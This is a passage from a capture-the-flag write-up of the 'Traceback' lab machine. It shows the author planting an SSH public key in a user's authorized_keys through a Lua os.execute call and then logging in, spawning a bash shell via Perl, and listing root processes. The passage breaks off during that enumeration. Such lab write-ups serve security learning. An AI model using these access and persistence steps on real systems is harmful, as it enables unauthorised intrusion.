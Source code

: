 ### Getting a shell as `sysadmin`

While reading up on how to execute commands in this `luvit` shell, I came across this page [https://simion.com/info/calling\_external\_programs.html](https://simion.com/info/calling_external_programs.html) which described a way to execute commands that were more complex than a simple "command" .. "argument" format.

```lua
> os.execute 'echo "ssh-rsa AAAA<my_public_key> zweilos@kali" >> /home/sysadmin/.ssh/authorized_keys'
```

I used this to once again copy my public SSH key to the new user, and used SSH to login.

```text
zweilos@kali:~/htb/traceback$ ssh sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$ whoami
sysadmin
```

## Path to Power \(Gaining Administrator Access\)

### Enumeration as `sysadmin`

I started out in `/bin/sh`, which was pretty limiting \(no history, arrow keys, or tab completion, etc\) so I tried to use my standard python PTY shell upgrade trick, but it didn't work.  _It was late and I was tired, so I looked up how to do it in Perl, since it was installed, using `perl -e 'exec "/bin/bash";'`.   When I went back to it the next morning, I realized that indeed python was not installed...but python3 was!  Doh!_

I wasn't able to check sudo permissions without a password, so I checked running processes next.  I noticed a strange `sleep 30` process running by root, so I decided to look further into what processes were being run as root with `ps -U root -u root` _\(from the man page\)_.

```text
sysadmin@traceback:/$ ps -U root -u root
USER        PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
...snipped
root        268  0.0  0.4 128080 17252 ?        S<s  14:17   0:00 /lib/systemd/systemd-journald
root        277  0.0  0.1  45732  4556 ?        Ss   14:17   0:02 /lib/systemd/systemd-udevd
root        278  0.0  0.0      0     0 ?        I<   14:17   0:00 [ttm_swap]
root        279  0.0  0.0      0     0 ?        S    14:17   0:00 [irq/16-vmwgfx]
root        287  0.0  0.0 158788   300 ?        Ssl  14:17   0:00 vmware-vmblock-fuse /run/vmblock-fuse 
root        396  0.0  0.2  88224  9700 ?        Ss   14:17   0:00 /usr/bin/VGAuthService
root        398  0.0  0.2 201880 11808 ?        Ssl  14:17   0:05 /usr/bin/vmtoolsd
root        435  0.0  0.0 110512  3556 ?        Ssl  14:17   0:00 /usr/sbin/irqbalance --foreground
root        438  0.0  0.0  31320  3156 ?        Ss   14:17   0:00 /usr/sbin/cron -f
root        440  0.0  0.4 170524 17316 ?        Ssl  14:17   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
root        441  0.0  0.1  70608  5896 ?        Ss   14:17   0:00 /lib/systemd/systemd-logind
root        450  0.0  0.1 287544  6828 ?        Ssl  14:17   0:00 /usr/lib/accountsservice/accounts-daem
...snipped...
```